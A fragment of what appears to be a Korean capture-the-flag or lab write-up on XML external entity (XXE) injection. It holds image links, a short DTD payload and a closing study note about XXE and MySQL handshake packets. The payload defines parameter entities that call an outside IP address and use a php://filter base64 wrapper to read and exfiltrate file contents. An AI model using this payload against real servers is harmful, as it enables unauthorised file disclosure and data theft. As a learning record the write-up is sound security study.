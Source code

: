 ![XXE_Infiltration_Q4_7.png](./IMG/XXE_Infiltration_Q4_7.png)
![XXE_Infiltration_Q4_8.png](./IMG/XXE_Infiltration_Q4_8.png)

```
<!ENTITY % payload SYSTEM "http://203.0.113.15/booking.php">
<!ENTITY % internals "<!ENTITY file SYSTEM 'php://filter/read=convert.base64-encode/resource=%payload;'>
```

### 마무리
XXE 공격, MySQL 접속 방식 (패킷), 핸드쉐이크 (패킷) 학습 필요